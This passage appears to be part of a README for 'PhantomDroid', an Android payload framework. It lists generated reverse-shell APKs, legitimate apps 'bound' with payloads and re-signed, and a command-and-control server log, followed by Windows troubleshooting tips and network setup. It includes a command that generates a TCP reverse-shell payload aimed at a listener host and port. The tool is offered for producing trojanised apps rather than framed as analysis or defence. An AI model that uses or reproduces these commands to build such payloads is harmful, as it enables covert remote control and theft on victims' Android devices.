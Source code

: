 ## 📁 Output Structure
```
output/
├── payloads/          # Generated APK files
│   ├── phantom_tcp_20241210_101530.apk
│   └── phantom_http_20241210_102045.apk
├── signed/            # Signed and bound APKs
│   ├── phantom_bound_20241210_103000_signed.apk
│   └── original_modified_signed.apk
├── temp/              # Temporary working files
└── logs/              # Framework logs
    ├── phantomdroid.log
    └── c2_server.log
```

## 🐛 Troubleshooting

### Common Windows Issues

1. **Python not found**
   ```bash
   # Add Python to PATH or use full path
   C:\Python39\python.exe core/payload_generator.py --help
   ```

2. **Permission denied**
   ```bash
   # Run PowerShell as Administrator
   # Or use Git Bash
   ```

3. **Java not found**
   ```bash
   # Install JDK and set JAVA_HOME
   set JAVA_HOME=C:\Program Files\Java\jdk-11.0.x
   ```

4. **Module not found**
   ```bash
   # Install missing modules
   pip install flask cryptography
   ```

### Debug Mode
```bash
# Enable debug output
python core/payload_generator.py --type tcp_reverse --lhost 192.168.1.100 --lport 4444 --debug
```

## 🌐 Network Setup

### For Testing (Local Network)
```bash
# Find your IP address
ipconfig

# Use your local IP as LHOST
# Example: 192.168.1.100
```
